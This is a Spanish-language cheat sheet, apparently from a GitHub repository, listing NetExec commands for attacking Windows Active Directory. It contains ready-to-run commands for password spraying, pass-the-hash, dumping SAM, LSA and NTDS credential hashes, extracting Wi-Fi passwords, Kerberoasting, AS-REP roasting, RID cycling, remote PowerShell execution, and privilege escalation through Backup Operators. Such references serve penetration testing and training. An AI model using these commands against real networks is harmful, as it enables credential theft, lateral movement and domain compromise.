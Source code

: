 # NetExec Cheat Sheet

#### Listar equipos dentro de la red de un AD
```
netexec smb 192.168.1.0/24
```

#### SMB con credenciales a dominio WORKGROUP
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' -d WORKGROUP
```

#### SMB con credenciales y especificando a un puerto
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --port <PORT>
```

#### Password Spraying
```
netexec smb 192.168.1.0/24 -u '<USERNAME>' -p listpassword.txt | grep +
```

#### Spraying Attack con usuario y contraseña
```
netexec smb <IP-ADDRESS> -u users.txt -p passwd.txt
```

#### Spraying Attack usando HashNTLM
```
netexec smb <IP-ADDRESS> -u users.txt -H '<HASH-NTLM>'
```

#### Conocer en que equipos se puede autenticar especificando un usuario y password
```
netexec smb 192.168.1.0/24 -u '<USERNAME>' -p '<PASSWORD>'
```

#### Spraying Attack con usuario y contraseña lineal
```
netexec smb <IP-ADDRESS> -u users.txt -p passwd.txt --no-bruteforce --continue-on-success
```

#### Enumeración de directorios compartidos SMB con NULL session
```
netexec smb <IP-ADDRESS> -u '' -p ''
netexec smb <IP-ADDRESS> -u 'a' -p ''
```

#### Enumeración de directorios compartidos SMB con NULL session
```
netexec smb <IP-ADDRESS> -u 'null' -p '' --shares
```

#### Enumeración de directorios compartidos SMB y mostrar datos y archivos en un archivo JSON que guarda sobre los archivos compartidos con acceso de lectura
```
netexec smb <IP-ADDRESS> -u 'null' -p '' -M spider_plus
```

#### Descargar un archivo de un directorio compartido
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --share <DIRECTORY-NAME> --get-file <FILE-NAME> <OUTPUT-NAME>
```

#### Descargar todos los archivos que contenga el servidor
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' -M spider_plus -o DOWNLOAD_FLAG=True
```

#### Enviar un archivo de un directorio compartido
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --put-file <FILE-NAME> \\Windows\\Temp\\<OUTPUT-NAME>
```

#### Enumeración de los usuarios del Directorio Activo
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --users
```

#### Enumeración de los grupos del Directorio Activo
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --groups
```

#### Comprobar a que grupo pertenece nuestro usuario
```
netexec ldap <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' -M groupmembership -o USER="<USERNAME>"
```

#### Enumeración de los usarios logueados actualmente
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --loggedon-users
```

#### Enumeración de los grupos locales
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --local-group
```

#### PassTheHash
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -H '<HASH>' --local-auth
```

#### Dumping Hashes SAM
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --sam
```

#### Dumping Hashes LSA
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --lsa
```

#### Dumping Hashes NTDS
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --ntds
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --ntds vss
```

#### Obtener la politica de contraseñas del AD
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --pass-pol
```

#### Dumping WIFI Password
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' -M wireless
```

#### Obtener las descripciones de los usuarios de LDAP
```
netexec ldap <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' -M get-desc-users
```

#### Enumeración de usuario (Fuerza Bruta) por RID (RID Cycling Attack)
```
netexec smb <IP-ADDRESS> -u 'guest' -p '' --rid-brute
```

#### Ataque de Kerberoasting
```
netexec ldap <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --kerberoasting <OUTPUT-FILE>
```

#### Ataque de Asreproast
```
netexec ldap <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --asreproast <OUTPUT-FILE>
```

#### Ejecutar comando Powershell
```
netexec winrm <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' -C '<COMMAND>'
```

#### Elevar Privilegios cuando el usuario pertenece al grupo "Backup Operators"
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' -M backup_operator
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)
